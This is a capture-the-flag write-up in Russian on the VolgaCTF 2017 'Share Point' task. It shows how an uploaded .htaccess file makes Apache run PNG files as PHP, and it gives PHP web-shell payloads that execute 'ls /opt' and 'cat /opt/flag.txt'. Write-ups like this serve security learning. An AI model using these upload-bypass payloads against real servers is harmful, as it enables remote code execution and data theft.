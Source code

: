 # Share Point - 200 points

Look! I wrote a good service for sharing your files with your friends, enjoy)
share-point.quals.2017.volgactf.ru

Hints:
* flag's location is **opt**imal

### Solution
Авторизация на сайте выдала себя в самом начале, логин и пароль соответствуют следующим регулярным выражениям:  
`login [\w]{4,}`  
`pass  [\w]{8,}`

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_1.png)

Так как сайт связан с загрузкой файлов, проверяем какие форматы он принимает.  
Грузим пустой файл index.php для проверки и видим, что нам отказано.

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_2.png)

Ладно, пробуем загрузить файл с раширением "png".

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_3.png)

Всё загрузилось, файл видно и он отрабатывается, его можно скачать или посмотреть.

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_4.png)

Были проведены попытки загрузить файл с ращирением "png" с кодом PHP внутри, путем подмены названия файла в прграмме перехвата трафика Charles. Сайт всё также не позволял загрузжать с таким расширение, так как проверка стояла после загрузки файла.  
Пробуем другой вариант. В ответах сервера мы видем там стоит Apache:

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_9.png)

Загружаем файл [.htaccess](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/files/.htaccess).  
Этот файл позволяет управлять разными настройками сервера Apache.  
Вот содержимое нашего файла которое говорит серверу отрабатывать файлы формата "png" как PHP код.

file ".htaccess":

```
AddHandler application/x-httpd-php .png
```
Загрузка прошла успешно, теперь пробуем повторить наши действия с загрузкой изображения с PHP кодом.

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_5.png)

После подсказки о расположении флага, где жирным было виделено его расположение, травим туда наш код
Грузим два файла:

[ls.png](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/files/ls.png):

```php
<?php
$tmp = `ls /opt`;
header("Content-type: image/png");
$name = "ls.txt";
$file = fopen($name, "w"); 
fputs($file, iconv('cp1251', 'utf-8', $tmp));
fclose ($file); 
?>
```

Пытаемся открыть наш файл, возвращаемся назад и видим, что наш скрипт сработал, создался файл "ls.txt" с содержимым "/opt":

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_7.png)

В этой дирректории лежит файл с интересующим нас названием, отправляем второй файл с аналогичным содержанием, что бы его прочитать:

[cat.png](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/files/cat.png):

```php
<?php
$tmp = `cat /opt/flag.txt`;
header("Content-type: image/png");
$name = "cat.txt";
$file = fopen($name, "w"); 
fputs($file, iconv('cp1251', 'utf-8', $tmp));
fclose ($file); 
?>
```
В ответ получаем на флаг:

![](https://github.com/texh0k0t/VolgaCTF-2017-Quals-Write-Up/blob/master/Share%20Point/assets/Screenshot_8.png)
